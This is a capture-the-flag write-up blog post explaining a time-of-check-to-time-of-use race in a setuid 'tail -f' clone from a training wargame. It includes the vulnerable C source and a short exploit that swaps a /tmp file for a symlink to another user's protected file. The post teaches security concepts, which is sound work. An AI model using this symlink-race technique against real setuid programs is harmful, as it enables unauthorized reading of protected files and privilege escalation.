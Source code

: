 ```yaml
---
title:  "[CTF] Binary Master Lieutenant - 4"
categories: [CTF, Binary-Master]
---
```


![Logo](/assets/images/belts-black.png)


We're finally getting closer to the end of the [Lieutenant](https://www.certifiedsecure.com/certification/view/37) set of challenges from **Certified Secure Binary Mastery**. This time we'll analyse another classic vulnerability - **Time of check to time of use (TOCTOU)**. At its root, the vulnerability is a class of [race condition](https://en.wikipedia.org/wiki/Race_condition). 

<blockquote>
	<p><b>TOCTOU</b>, pronounced "TOCK too" is a class of software bug caused by changes in a system between the checking of a condition (such as a security credential) and the use of the results of that check.</p>
  <cite><a target="_blank" href="https://en.wikipedia.org/wiki/Time_of_check_to_time_of_use">TOCTTOU - Wikipedia</a>
</cite> </blockquote>

The vulnerability in this level is actually pretty straight-forward to spot. Although race-conditions are usually difficult to exploit reliably, in this case things are easier, as we'll see.

To review the previous levels, check the links below:
* [Binary Master: Ensign - Level 1]({{ site.baseurl }}{% post_url 2016-01-07-binary-master-ensign-1 %})
* [Binary Master: Ensign - Level 2]({{ site.baseurl }}{% post_url 2016-01-14-binary-master-ensign-2 %})
* [Binary Master: Ensign - Level 3]({{ site.baseurl }}{% post_url 2016-01-21-binary-master-ensign-3 %})
* [Binary Master: Ensign - Level 4]({{ site.baseurl }}{% post_url 2016-01-28-binary-master-ensign-4 %})
* [Binary Master: Ensign - Level 5]({{ site.baseurl }}{% post_url 2016-02-09-binary-master-ensign-5 %})
* [Binary Master: Lieutenant - Level 1]({{ site.baseurl }}{% post_url 2016-02-16-binary-master-lieutenant-1 %})
* [Binary Master: Lieutenant - Level 2]({{ site.baseurl }}{% post_url 2016-02-23-binary-master-lieutenant-2 %})
* [Binary Master: Lieutenant - Level 3]({{ site.baseurl }}{% post_url 2016-03-02-binary-master-lieutenant-3 %})

## 0 - Discovery

Let's see what mitigation techniques we have here, if any, using [checksec.sh](http://www.trapkit.de/tools/checksec.html), downloaded and run locally:

```bash
$ checksec.sh --file level4
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
Partial RELRO   Canary found      NX enabled    No PIE          No RPATH   No RUNPATH   level4
```
So both **NX bit** and **stack canary** are enabled. Sounds difficult to exploit but let's not worry just yet and have a look at the source code:

```c
/*
 * Nice replacement for 'tail -f'.
 */

#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

int main(int argc, char** argv) {
	FILE* fp;
	char ch;
	int pos = 0;
	int len = 0;

	if (argc != 2) {
		printf("Usage: %s <file>\n", argv[0]);

		return -1;
	}
	
[1]	seteuid(getuid());                                                 
	fp = fopen(argv[1], "r");
	
	if (fp == NULL) {
		char error[50];
		snprintf(error, 49, "Error opening file %s\n", argv[1]);
		fprintf(stderr, "%s", error);       
 
		return -1;
	}
	
	fclose(fp);
[2]	seteuid(1006);    
	
	for (;;) {
[3]		fp = fopen(argv[1], "rb");

		if (fp == NULL) {
			return -1;
		}

		fseek(fp, 0, SEEK_END);
		len = ftell(fp);
	
		fseek(fp, pos, SEEK_SET);

		while (pos < len) {
			ch = fgetc(fp);
			pos++;
			printf("%c", ch);
		}

		fclose(fp);
		sleep(1);
	}

	return 0;
}
```

First, a bit about the functionality of the application:
* The code at **[1]** _sets the effective user id_ to the actual user id running the process. The effective user id is what the OS checks when making a decision whether to allow an operation or not. To understand more about real and effective user ids, check [this link](https://stackoverflow.com/questions/32455684/difference-between-real-user-id-effective-user-id-and-saved-user-id#32456814). 
* Basically this call will drop the privileges temporarily (remember we have a setuid program) to check if the real user has privileges to open a file or not.
*  The _seteuid()_ call at **[2]** then restores the privileges by setting the effective user id to 1006 (level5), which is the actual owner of the binary:

```
$ id
uid=1005(level4) gid=1005(level4) groups=1005(level4)
$ ls -alh /levels/level4
-rwsr-s--- 1 level5 level4 7.7K May 12 12:36 /levels/level4
```

## 1 - Vulnerability

Although the program will check if the real user has privileges to open the file specified as first parameter,
another _fopen()_ call is performed at **[3]** without any verification, basically introducing the TOCTOU vulnerability. So in order to exploit this we'll do a few simple stes:
* Create a file in the /tmp folder, for which the application will have access.
* While the application is in the _for_ loop waiting for modifications on the file, replace it with a symbolic link to /home/level5/victory. At this point the level5 privileges have been regained so we'll have read access.

## 2 - Exploit 

As said before, exploiting this is very straight-forward:

```
$ echo 123 > /tmp/file
$ /levels/level4 /tmp/file &
[1] 11482
$ ln -fs /home/level5/victory /tmp/file
```

## 3 - Profit

```

  / _ )(_)__  ___ _______ __  /  |/  /__ ____ / /____ ______ __
 / _  / / _ \/ _ `/ __/ // / / /|_/ / _ `(_-</ __/ -_) __/ // /
/____/_/_//_/\_,_/_/  \_, / /_/  /_/\_,_/___/\__/\__/_/  \_, / 
                     /___/                              /___/  
                ___           __                   __   
               / (_)___ __ __/ /____ ___ ___ ____ / /_  
              / / // -_) // / __/ -_) _ | _ `/ _ | __/  
             /_/_/ \__/\_,_/\__/\__/_//_|_,_/_//_|__/   
             
Subject: Victory!

Congrats, you have solved level4. To update your score,
send an e-mail to unlock@certifiedsecure.com and include:
   * your CS-ID
   * which level you solved (level4 @ binary mastery lieutenant)
   * the exploit 
   
You can now start with level5. If you want, you can log in
as level5 with password   [REDACTED]
```

That's it for now. The [final level]({{ site.baseurl }}{% post_url 2016-03-17-binary-master-lieutenant-5 %}) which we'll see next was the most interesting for me. We'll perform a Man-in-the-Middle attack on a well-known cryptographic encryption scheme.

